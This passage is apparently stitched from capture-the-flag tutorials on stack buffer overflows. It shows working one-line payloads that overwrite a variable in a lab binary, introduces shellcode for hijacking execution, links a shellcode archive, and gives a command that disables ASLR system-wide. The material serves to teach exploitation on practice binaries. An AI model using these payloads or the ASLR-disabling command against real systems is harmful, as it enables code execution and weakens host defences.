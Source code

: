 And we see that the value changed to 0x00000062 which is the hex value of “b” so our exploit is working, Let’s apply that.

```
./stack1 `python -c "print ('A' * 64 + 'dcba')"`
```

![img](https://0xrick.github.io/images/binary-exploitation/BOF2/5.png)

And we did it !

But can we do it in another way ? instead of entering ASCII we can use the hex values and python will translate them.

```
./stack1 `python -c "print('A' * 64 + '\x64\x63\x62\x61')"`
```

![img](https://0xrick.github.io/images/binary-exploitation/BOF2/6.png)

## Shellcode

In real exploits, it's not particularly likely that you will have a `win()` function lying around - shellcode is a way to run your **own** instructions, giving you the ability to run arbitrary commands on the system.

**Shellcode** is essentially **assembly instructions**, except we input them into the binary; once we input it, we overwrite the return pointer to hijack code execution and point at our own instructions!

I promise you can trust me but you should never *ever* run shellcode without knowing what it does. Pwntools is safe and has almost all the shellcode you will ever need.

The reason shellcode is successful is that [Von Neumann architecture](https://en.wikipedia.org/wiki/Von_Neumann_architecture) (the architecture used in most computers today) does not differentiate between **data** and **instructions** - it doesn't matter where or what you tell it to run, it will attempt to run it.  Therefore, even though our input is data, the computer *doesn't know that* - and we can use that to our advantage.

[Shellcodeshellcode.zip - 3KB](https://firebasestorage.googleapis.com/v0/b/gitbook-28427.appspot.com/o/assets%2F-MEwBGnjPgf263kl5vWP%2F-MExsCT3Quk1cysuiZzS%2F-MExsSPp2uWydaCUW9Dh%2Fshellcode.zip?alt=media&token=8f373517-663b-4439-a179-73d6f97726c0)

### Disabling ASLR

ASLR is a security technique, and while it is not specifically designed to combat shellcode, it involves randomising certain aspects of memory (we will talk about it in much more detail later). This randomisation can make shellcode exploits like the one we're about to do more less reliable, so we'll be disabling it for now [using this](https://askubuntu.com/questions/318315/how-can-i-temporarily-disable-aslr-address-space-layout-randomization).

```
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

Again, you should never run commands if you don't know what they do
